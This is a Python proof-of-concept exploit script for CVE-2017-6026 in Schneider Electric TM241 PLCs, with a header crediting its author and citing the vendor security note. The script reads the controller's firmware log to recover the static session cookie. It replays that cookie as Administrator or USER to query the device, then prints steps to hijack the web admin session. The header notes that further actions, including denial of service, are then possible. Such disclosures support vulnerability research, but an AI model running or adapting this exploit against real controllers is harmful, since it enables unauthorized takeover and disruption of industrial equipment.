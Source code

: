 POC
---

    #! /usr/bin/env python
    '''
        Copyright 2018 Photubias(c)
        # Exploit Title: Schneider Session Calculation - CVE-2017-6026
        # Date: 2018-09-30
        # Exploit Author: Deneut Tijl
        # Vendor Homepage: www.schneider-electric.com
        # Software Link: https://www.schneider-electric.com/en/download/document/M241-M251+Firmware+v4.0.3.20/
        # Version: Schneider Electric PLC 4.0.2.11 & Boot v0.0.2.11
        # CVE : CVE-2017-6026

            This program is free software: you can redistribute it and/or modify
            it under the terms of the GNU General Public License as published by
            the Free Software Foundation, either version 3 of the License, or
            (at your option) any later version.

            This program is distributed in the hope that it will be useful,
            but WITHOUT ANY WARRANTY; without even the implied warranty of
            MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
            GNU General Public License for more details.

            You should have received a copy of the GNU General Public License
            along with this program.  If not, see <http://www.gnu.org/licenses/>.

            File name CVE-2017-6026-SchneiderSessionCalculation.py
            written by tijl[dot]deneut[at]howest[dot]be

            Tested on the Schneider TM241 PLC with Firmware 4.0.2.11 & Boot 0.0.2.11.
            Firmware: https://www.schneider-electric.com/en/download/document/M241-M251+Firmware+v4.0.3.20/
            Security Note: https://www.schneider-electric.com/en/download/document/SEVD-2017-075-02/

            This script will calculate the website session cookie, which is static after every reboot.
            (This cookie is actually the Epoch time at PLC startup)
            The only prerequisite is that, since the reboot, a user must have been logged in.
                    E.g. Administrator (with default password 'admin')
                    or   USER (with default password 'USER')

            After retrieving the cookie, various website actions are possible (including a DoS).
            Sample output:
            C:\Users\admin\Desktop>SchneiderGetSession.py
            Please enter an IP [10.10.36.224]:
            This device has booted 33 times
            Cookie: 1521612584 (22/03/2018 06:09:44.014)
            ----------------
            --- Device:      TM241CE40R
            --- MAC Address: 0080F40B24E0
            --- Firmware:    4.0.2.11
            --- Controller:  Running
            ----------------
            Press Enter to close
    '''
    import urllib2

    strIP = raw_input('Please enter an IP [10.10.36.224]: ')
    if strIP == '': strIP = '10.10.36.224'
    FwLogURL = 'http://' + strIP + '/usr/Syslog/FwLog.txt'
    try:
        FwLogResp = urllib2.urlopen(urllib2.Request(FwLogURL)).readlines()
        NumberOfPowerOns = 0
        for line in FwLogResp:
            if 'Firmware core2' in line:
                NumberOfPowerOns += 1
                CookieVal = line.split(' ')[1]
                BootupTime = line.split('(')[1].split(')')[0]
        NumberOfPowerOns /= 2
    except:
        print('Error: URL not found.')
        raw_input('Press enter to exit')
        exit()

    try:
        CookieVal
    except:
        print('Error: ' + FwLogURL + ' does not contain the necessary data.')
        raw_input('Press Enter to Exit')
        exit()

    print('This device has booted ' + str(NumberOfPowerOns) + ' times')
    print('Cookie: ' + CookieVal + ' (' + BootupTime + ')')
    print('----------------')
    raw_input('Press enter to see if the cookie is set on the webserver.'+"\n")

    CtrlURL = 'http://' + strIP + '/plcExchange/getValues/'
    CtrlPost = 'S;100;0;136;s;s;S;2;0;24;w;d;S;1;0;8;B;d;S;1;0;9;B;d;S;1;0;10;B;d;S;1;0;11;B;d;'

    try:
        CtrlUser = 'Administrator'
        DataReq = urllib2.Request(CtrlURL, CtrlPost, headers={'Cookie':'M258_LOG=' + CtrlUser + ':' + CookieVal})
        DataResp = urllib2.urlopen(DataReq).read()
    except:
        print('Failure for user \'Administrator\'')
        try:
            CtrlUser = 'USER'
            DataReq = urllib2.Request(CtrlURL, CtrlPost, headers={'Cookie':'M258_LOG=' + CtrlUser + ':' + CookieVal})
            DataResp = urllib2.urlopen(DataReq).read()
        except:
            print('Failure for user \'USER\'')
            raw_input('Press enter to exit')
    print('### SUCCESS (' + CtrlUser + ') ###')
    print('--- Device:      ' + DataResp.split(' ')[0])
    print('--- MAC Address: ' + DataResp.split(';')[0].split(' ')[1][1:])
    print('--- Firmware:    ' + DataResp.split(';')[2] + '.' + DataResp.split(';')[3] + '.' +DataResp.split(';')[4] + '.' +DataResp.split(';')[5])
    state = DataResp.split(';')[1]
    if state == '2':
        print('--- Controller:  Running')
    elif state == '1':
        print('--- Controller:  Stopped')
    elif state == '0':
        print('--- Controller:  ERROR mode')
    print('')
    print('--- To exploit: Create cookie for domain "'+strIP+'"')
    print('    with name "M258_LOG" and value "'+CtrlUser+':'+CookieVal+'"')
    print('    and open "http://'+strIP+'/index2.htm"')
    print('')
    print('----------------')

    raw_input('Press enter to close')
    exit()